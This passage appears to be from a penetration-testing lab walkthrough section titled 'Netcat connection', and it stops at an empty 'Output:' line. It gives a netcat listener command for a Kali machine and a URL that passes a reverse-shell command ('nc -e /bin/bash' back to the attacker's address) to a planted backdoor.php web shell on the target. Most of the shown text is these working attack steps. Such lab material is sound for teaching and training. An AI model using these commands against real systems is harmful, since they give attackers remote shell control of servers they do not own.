

4.2 Netcat connection
Let's create a “netcat” connection.
1. On your Kali Machine run the following command.
$nc -nlvp 4444
2. Navigate to http://192.168.12.30/backdoor.php?c=nc%20%20-e%20/bin/bash%20%20192.168.12.10%204444.
3. On your Kali Machine shell you'll see there's a connection opened.
Output:
